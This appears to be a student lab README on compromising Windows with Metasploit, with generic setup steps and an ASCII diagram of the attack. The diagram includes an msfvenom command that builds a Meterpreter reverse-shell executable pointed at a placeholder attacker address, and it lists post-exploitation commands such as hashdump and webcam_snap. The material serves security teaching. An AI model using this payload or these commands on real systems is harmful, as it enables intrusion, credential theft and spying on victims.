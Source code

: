 ## HARIPRASHAAD RA 
## 212223040060
# Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:


## Architecture Diagram

```bash
## 🛠️ Metasploit Exploitation Architecture (Windows Target)


+----------------+                           +------------------+
|  🟢 Attacker    |      🔁 Reverse Shell      |   🔴 Victim (Win) |
|  (Kali Linux)  | <------------------------- |  Unpatched SMB   |
|  - msfconsole  |       (TCP 4444)          |  RDP, AV Bypass  |
|  - handler     |                           |                  |
+-------+--------+                           +--------+---------+
        |                                             |
        |  ⚙️ Payload generation using msfvenom        |
        |                                             |
        v                                             v
msfvenom -p windows/meterpreter/reverse_tcp  -->  User clicks payload  
         LHOST=attacker_ip LPORT=4444               or exploit triggers  
         -f exe > evil.exe  

        |
        |  🧲 Listener waits (multi/handler)
        v

+------------------------------------------------------------+
|     🧠 Meterpreter Session Established (shell access)       |
+------------------------------------------------------------+
| Commands: sysinfo | hashdump | migrate | webcam_snap | etc |
+------------------------------------------------------------+
```